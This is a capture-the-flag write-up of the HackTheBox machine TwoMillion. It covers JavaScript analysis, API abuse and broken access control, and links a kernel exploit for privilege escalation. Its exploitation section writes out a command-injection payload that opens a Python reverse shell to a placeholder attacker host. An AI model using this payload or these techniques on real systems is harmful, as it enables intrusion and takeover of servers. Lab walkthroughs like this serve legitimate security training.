 ```yaml
---
title: "HackTheBox: TwoMillion - Easy"
categories: [HackTheBox]
tags: [hackthebox, api, kernel-exploit]
image:
  path: /assets/images/2025-10-18-htb-twomillion/cover.png
---
```


## Overview

**TwoMillion** is an easy-rated box that tests your enumeration skills and understanding of **APIs**. The machine starts with **javascript** code analysis to uncover hidden API endpoints. Once authenticated, further enumeration reveals administrative endpoints and eventually a **command injection** vulnerability that provides initial shell access. From there, reading sensitive environment files allows lateral movement, followed by exploiting a **kernel vulnerability** for privilege escalation to root.

Box Link: [TwoMillion](https://www.hackthebox.com/machines/TwoMillion)

---

## 1. Reconnaissance

### 1.1 Nmap Scan

We begin our reconnaissance with an **nmap** scan. First, let’s identify all open ports:

```bash
nmap -sS -T4 -p- <TARGET_IP>
```

**Results:**
```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Only two open ports — **22 (SSH)** and **80 (HTTP)**. Let’s enumerate their versions:

```bash
nmap -sS -T4 -p 22,80 -sV --version-all <TARGET_IP>
```

**Results:**
```
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx
Service Info: OS: Linux
```

No obvious vulnerabilities here. We’ll move on to the web server on port 80. Before that, add `2million.htb` to `/etc/hosts`.

---

## 2. Enumeration

### 2.1 Directory Enumeration

Using **Gobuster** to identify interesting directories:

```bash
gobuster dir -u "http://2million.htb" \
-w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt \
-x txt,log,bak,php --exclude-length 162
```

The results show:
```
/home (302) → /
/login (200)
/register (200)
/api (401)
/logout (302) → /
/invite (200)
/Database.php (200)
/Router.php (200)
```

The `/api` endpoint returning **401 Unauthorized** looks promising. Let’s explore the web interface first.

---

## 3. Web Exploration

### 3.1 Login and Registration

Visiting the main page shows a login form, but no credentials. The `/register` page requires an **invite code**. Viewing the source reveals the invite field is prefilled from **localStorage**, meaning the code must come from somewhere else.

### 3.2 Finding the Invite Code

The `/invite` page has links to javascript files. One of them, `inviteapi.js`, includes obfuscated code that can be deobfuscated to show some interesting functions. The one we are interested in is `makeInviteCode`. Running it in the console gives us this response:

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probably check the encryption type in order to decrypt it..."
}
```

Decrypting the ROT13-encoded string gives:
```
In order to generate the invite code, make a POST request to /api/v1/invite/generate
```

Sending a POST request to that endpoint returns an encoded invite code, which can be base64-decoded to register successfully.

---

## 4. Authenticated Enumeration

Once logged in, we have access to new endpoints such as `/home/access`, `/home/rules`, and `/home/changelog`. None of these directly leak useful info. However, `/home/access` calls `/api/v1/user/vpn/generate`, which generates an OpenVPN config.

Replacing `user` with `admin` in the endpoint returns **401 Unauthorized** — indicating role-based access control is in place. But maybe we can explore `/api` again now that we’re authenticated.

### 4.1 Enumerating the API

Accessing `/api/v1` now returns a full route list:

```json
{
  "v1": {
    "user": {...},
    "admin": {...}
  }
}
```

It lists all **user** and **admin** endpoints, including:
- `/api/v1/admin/settings/update`
- `/api/v1/admin/vpn/generate`

### 4.2 Privilege Escalation to Admin

Testing `/api/v1/admin/settings/update` reveals it doesn’t verify admin privileges. After you follow the error messages and add the necessary parameters you get to promote your user to admin using a **Broken Access Control** vulnerability.

![Got admin rights]({{ site.baseurl }}/assets/images/2025-10-18-htb-twomillion/ss1.png)

Revisiting `/api/v1/admin/auth` confirms we’re now authenticated as admin.

---

## 5. Exploitation

### 5.1 Command Injection in VPN Generation

Now as admin, we can hit `/api/v1/admin/vpn/generate`. The request needs a username, but it doesn't have to be our username since we can supply arbitrary values. What if we sent unusual input?

Sending payloads with quotes and command substitutions shows that the username parameter does behave weirdly and sometimes sends empty responses. With further tests we confirm that we can execute commands using `$()` in the username.

Using a reverse shell payload:

```json
{
  "username": "$(python3 -c 'import socket,os,pty;s=socket.socket();s.connect(("<ATTACKER_IP>",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")')"
}
```

We catch a shell as **www-data**.

---

## 6. Privilege Escalation

### 6.1 Pivoting to Admin

Checking the current directory reveals a `.env` file containing valid SSH credentials for the `admin` user. 

![Environment variables leaking creds]({{ site.baseurl }}/assets/images/2025-10-18-htb-twomillion/ss2.png)

We log in successfully and retrieve the user flag.

![User flag]({{ site.baseurl }}/assets/images/2025-10-18-htb-twomillion/ss4.png)

### 6.2 Root Escalation via Kernel Exploit

Running **linpeas** indicates an outdated kernel and an email referencing **OverlayFS / FUSE** vulnerabilities. This points to `CVE-2023-0386`.

Following an exploit from [this reference](https://red.infiltr8.io/redteam/privilege-escalation/linux/kernel-exploits/overlayfs-exploits/cve-2023-0386-overlayfs) and [this GitHub repo](https://github.com/sxlmnwb/CVE-2023-0386), we execute the exploit and gain root privileges.

![Root privileges]({{ site.baseurl }}/assets/images/2025-10-18-htb-twomillion/ss5.png)

We can now get the flag from `/root`

![Root flag]({{ site.baseurl }}/assets/images/2025-10-18-htb-twomillion/ss3.png)

---

## 7. Conclusion

**TwoMillion** was an enjoyable box that combined client-side javascript analysis, API abuse, and a kernel exploit. The progression felt natural — from front-end enumeration to backend exploitation. It’s a great challenge for practicing enumeration, logic flaws, and privilege escalation.
